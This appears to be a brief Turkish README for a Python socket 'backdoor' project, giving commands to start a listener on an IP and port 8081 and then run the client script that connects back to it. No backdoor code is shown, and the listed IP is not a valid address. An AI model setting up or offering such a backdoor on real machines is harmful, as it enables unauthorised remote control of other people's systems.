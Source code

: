 # backdoor
Python soket programlama kullanarak backdoor yapımı
#pycharm üzerinden kullanımı
ilk olarak iki terminal açın
İlk terminale aşağıdaki kodu yazarak server dosyamızı çalıştıralım
python .\beyza_listener.py -ip 11.552.975.57 -p 8081 (beyzaBD dosyasındaki aynı ip ve port numarası olmalı)
İkinci terminale aşağıdaki kodu yazarak client dosyamızı çalıştıralım
python .\beyzaBD.py
![1](https://user-images.githubusercontent.com/106341351/210741461-0ff7fc05-ed0d-4499-97d0-0c2385dc3df8.PNG)


